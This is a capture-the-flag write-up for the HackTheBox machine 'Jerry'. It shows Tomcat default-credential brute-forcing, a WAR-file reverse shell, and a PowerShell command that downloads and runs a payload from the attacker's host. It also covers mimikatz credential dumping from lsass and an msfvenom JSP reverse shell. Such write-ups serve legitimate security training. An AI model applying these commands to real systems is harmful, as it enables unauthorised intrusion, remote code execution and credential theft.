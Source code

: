 # Hackthebox Jerry


Before we start I always reset the box, it is often that services have crashed or behaves in unintended ways after others have exploited them. And I do not want any spoilers that may have been left by others on the box.


## Recon

First, as always, we perform our initial enumeration of the box using Nmap.

```
# Nmap 7.70 scan initiated Sun Nov 18 21:32:47 2018 as: nmap -v -sV -p- -oA jerry_tcp_full 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up (0.033s latency).
Not shown: 65534 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
```
So we only have one service to focus on. It seems to be an Apache Tomcat server.

Visiting the page we see that it is indeed Tomcat. We see the version number Apache Tomcat/7.0.88 printed on the page. 

The first thing i usually check with Tomcat is if we can access the Tomcat manager.

Browsing to http://10.10.10.95:8080/manager we are promted with a login. 


Okay so lets try some simple usernames and passwords like admin:admin etc. No luck there.

Tomcat has some default credential combinations we can try. This page has a good summary of these: https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown.

Metasploit also have some wordlists with these as well.


## Initial Compromise

Let's try these default credentials against the server.

```
msf auxiliary(scanner/http/tomcat_mgr_login) > run

[-] 10.10.10.95:8080 - LOGIN FAILED: j2deployer:j2deployer (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: ovwebusr:OvW*busr1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: cxsdk:kdsxc (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:owaspbwa (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: ADMIN:ADMIN (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: xampp:xampp (Incorrect)
[+] 10.10.10.95:8080 - Login Successful: tomcat:s3cret
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Bingo tomcat:s3cret got us logged in.

We can also use Hydra to brute-force the login:

```
root@kali:~/htb/jerry# hydra -L tomcat_user.txt -P tomcat_passwords.txt -s 8080 10.10.10.95 http-get /manager/html
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-11-18 22:53:12
[DATA] max 16 tasks per 1 server, overall 16 tasks, 77 login tries (l:7/p:11), ~5 tries per task
[DATA] attacking http-get://10.10.10.95:8080//manager/html
[8080][http-get] host: 10.10.10.95   login: admin   password: admin
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
1 of 1 target successfully completed, 2 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2018-11-18 22:53:15
```

The first hit (admin:admin) is a false positive. I have not digged any deeper to figure out why.

Once we are logged in to Tomcat we can upload a .war file containing a shell to get code execution on the server. 

If we are lazy, we can use Metasploit to do this for us:

```
msf exploit(multi/http/tomcat_mgr_upload) > exploit 

[*] Started reverse TCP handler on 10.10.14.17:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying DUDlNsQtDVKT3jF...
[*] Executing DUDlNsQtDVKT3jF...
[*] Undeploying DUDlNsQtDVKT3jF ...
[*] Sending stage (53845 bytes) to 10.10.10.95
[*] Meterpreter session 1 opened (10.10.14.17:4444 -> 10.10.10.95:49192) at 2018-11-18 22:03:44 +0100

meterpreter > sysinfo
Computer    : JERRY
OS          : Windows Server 2012 R2 6.3 (amd64)
Meterpreter : java/windows
meterpreter > getuid
Server username: JERRY$
```


## Establish Foothold

The first thing I usually do when I have an initial foothold on a system is to upgrade our shell. This is because some tasks and exploits during our privesc phase may require a full TTY to work. Trust me, I have learned this the hard way.

Our Meterpreter shell is a Java shell that is not really stable. So let's get a proper shell on the system.

Create a powershell payload with Unicorn:

```
root@kali:~/tools/post-exploitation/unicorn# python unicorn.py windows/meterpreter/reverse_http 10.10.14.17 4444                                                                                            
```

Request and run the payload with powershell:

```
c:\apache-tomcat-7.0.88>powershell.exe -c "IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.17:8000/powershell_attack.txt')"                                                                   
powershell.exe -c "IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.17:8000/powershell_attack.txt')"                                                                                           

[*] http://10.10.14.17:4444 handling request from 10.10.10.95; (UUID: cs2csgfu) Encoded stage with x86/shikata_ga_nai                                                                                       
[*] http://10.10.14.17:4444 handling request from 10.10.10.95; (UUID: cs2csgfu) Staging x86 payload (180854 bytes) ...                                                                                      
[*] Meterpreter session 3 opened (10.10.14.17:4444 -> 10.10.10.95:49194) at 2018-11-18 22:19:02 +0100


meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo 
Computer        : JERRY
OS              : Windows 2012 R2 (Build 9600).
Architecture    : x64
System Language : en_US
Domain          : HTB
Logged On Users : 0
Meterpreter     : x86/windows
```

Our newly spawned meterpreter is running in a SYSTEM context. Well thats that. 

Let's for the fun of it see of we can dump some credentials of the host using kiwi.

We are on a 64-bit system, so first we need to upgrade our 32-bit meterpreter to 64-bit. 

List all processes with ps.

Migrating to lsass.exe is usually pretty stable

```
meterpreter > migrate 464
[*] Migrating from 4036 to 464...
[*] Migration completed successfully.
meterpreter > load kiwi 
Loading extension kiwi...
  .#####.   mimikatz 2.1.1 20180925 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour"
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > creds_all 
[+] Running as SYSTEM
[*] Retrieving all credentials
wdigest credentials
===================

Username  Domain  Password
--------  ------  --------
(null)    (null)  (null)
JERRY$    HTB     (null)

kerberos credentials
====================

Username  Domain  Password
--------  ------  --------
(null)    (null)  (null)
jerry$    HTB     (null)

```

Okej nothing really interesting there.


### Manual way

Let's get RCE without using Metasploit here.

Creating a JSP payload with msfveom:

```
root@kali:~/htb/jerry# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.17 -f war > shell.war
Payload size: 1100 bytes
Final size of war file: 1100 bytes
```

Then we need to upload it in the application. Under the headline "WAR file to deploy" in the tomcat manager, we can upload our payload.

```
root@kali:~/htb/jerry# nc -lvp 4444
listening on [any] 4444 ...
10.10.10.95: inverse host lookup failed: Unknown host
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.95] 49193
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

C:\apache-tomcat-7.0.88>
```
